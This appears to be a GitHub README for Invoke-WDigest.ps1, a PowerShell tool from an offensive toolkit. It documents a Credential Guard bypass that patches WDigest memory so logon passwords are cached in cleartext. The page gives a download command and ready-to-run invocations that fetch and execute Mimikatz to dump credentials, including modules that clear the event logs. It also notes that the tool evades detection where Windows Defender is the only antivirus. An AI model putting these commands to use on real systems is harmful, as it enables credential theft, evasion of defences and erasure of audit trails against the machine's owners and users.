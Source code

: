 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|Credits: @wh0nsq, @BenjaminDelpy|

<br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials *|<b><i>false</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>false</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|

<b><i>* Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system.</i></b><br />
Execute [GetCounterMeasures.ps1](https://github.com/r00t-3xp10it/redpill/blob/main/bin/GetCounterMeasures.ps1) cmdlet to enumerate common security processes running before executing Invoke-WDigest.ps1

<br />

**download Invoke-WDigest.ps1:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

**run cmdlet:**
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi event::clear'


[FAST DEMONSTRATION]

## WDigest caching + dump (-runas) created credential with mimikatz (sekurlsa::wdigest)
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
   - WDigest will store (runas) credential input by user in clear-text in memory
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials

REMARK
   RunAs parameter switch exists for demonstration effects, and can not be
   used remotely because it requires target user interaction (prompt cred)
   and resource UserName password knowledge ..
```

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.png)

<br />

![poc](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest2.png)

<br />

<b><i>REMARK:Invoke-WDigest.ps1 cmdlet only bypasses mimikatz detection if windows defender its the only AV running in target system ..</i></b>
